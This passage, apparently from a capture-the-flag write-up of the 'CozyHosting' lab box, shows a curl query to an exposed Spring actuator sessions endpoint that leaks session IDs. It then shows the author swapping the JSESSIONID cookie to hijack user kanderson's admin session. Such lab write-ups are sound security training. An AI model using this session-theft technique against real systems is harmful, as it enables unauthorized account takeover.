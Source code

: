     oxdf@hacky$ curl -s http://cozyhosting.htb/actuator/sessions | jq .
    {
      "EEE571008BF31ADB2E904F4E8CBF5ABB": "UNAUTHORIZED",
      "E1CE43B04CC6C958A7496877E331256D": "UNAUTHORIZED",
      "2926B07C6C6B8CB0B92A5AE5DF5AE2B6": "UNAUTHORIZED",
      "B3C02C5C13A99CCEFC3AF469D28374C9": "UNAUTHORIZED",
      "C987ACE5C53875AE151372328A544FAF": "kanderson"
    }



## Shell as app

### Session Stealing

I'll go into Firefox dev tools, under Storage -\> Cookies and replace
the value for `JSESSIONID` with the kandersons user's cookie.

![](/img/image-20240227102346639.png)

Now when I refresh `/login` or visit `/admin`, there's a panel and I'm
authenticated as K. Anderson:

